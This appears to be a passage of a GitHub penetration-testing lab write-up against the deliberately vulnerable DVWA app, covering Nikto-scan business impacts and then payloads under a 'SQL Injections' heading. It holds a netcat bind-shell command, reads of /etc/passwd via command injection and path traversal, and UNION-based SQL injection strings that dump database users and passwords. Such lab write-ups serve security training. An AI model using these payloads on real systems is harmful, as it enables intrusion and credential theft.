 **Increased monitoring and response efforts**: The Nikto scan results also highlight the need for increased monitoring and response efforts to detect and respond to potential security incidents. This may require deploying additional security monitoring tools, implementing incident response plans, and dedicating resources for continuous monitoring and analysis of website traffic, logs, and other security indicators. These efforts can increase the organization's operational costs and resource allocation.

**Reputational damage**: The presence of security vulnerabilities identified by Nikto scan can result in reputational damage for the organization. Customers, partners, and other stakeholders may lose trust in the organization's ability to protect their data and may choose to do business with other more secure alternatives. This can have long-term impacts on the organization's brand reputation, customer relationships, and market share.

**Legal and regulatory consequences**: Non-compliance with industry standards, regulations, and best practices for web security, as indicated by the Nikto scan results, may result in legal and regulatory consequences. This can include fines, penalties, and sanctions imposed by regulatory authorities, legal liabilities resulting from data breaches or other security incidents, and potential legal actions from affected customers or partners. These consequences can have significant financial and legal impacts on the organization.

## SQL Injections

```ruby
    1 | cat /etc/passwd
    1 | netcat -v -e ‘/bin/bash’ -l -p 31337
 ```
   
<img width="476" alt="Screenshot 2024-07-04 at 3 21 37 PM" src="https://github.com/gabizzle/Penetration-Testing/assets/67624149/75bc44ac-5354-45e9-8d00-f25fe8806faf">

<img width="668" alt="Screenshot 2024-07-04 at 3 21 48 PM" src="https://github.com/gabizzle/Penetration-Testing/assets/67624149/0e7ae18c-894d-4860-a500-81090778101e">

```ruby
    http://191.168.1.22/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

<img width="483" alt="Screenshot 2024-07-04 at 3 22 22 PM" src="https://github.com/gabizzle/Penetration-Testing/assets/67624149/eceddeeb-304c-48f9-81b2-fe80082b1ae0">

```ruby 
    %’ or ‘0’=’0
    %’ or 0=0 union select null, database() #
    ‘union select 1,@@version#
```

<img width="336" alt="Screenshot 2024-07-04 at 3 22 45 PM" src="https://github.com/gabizzle/Penetration-Testing/assets/67624149/a4d0ee4d-c6eb-4a3b-aeea-e27759e9b1f3">

```ruby
    1' and 1=0 union select null,table_name from information_schema.columns where table_name='users'' #
    – 1' and 1=0 union select null,concat(table_name,0x0a,column_name) from information_schema.columns where table_name='users'' #
    – 1' and 1=0 union select null,concat(first_name,0x0a,password) from users #
```

<img width="450" alt="Screenshot 2024-07-04 at 3 23 35 PM" src="https://github.com/gabizzle/Penetration-Testing/assets/67624149/7c349eaf-cfcf-46d9-b6b0-491a5d87ccac">
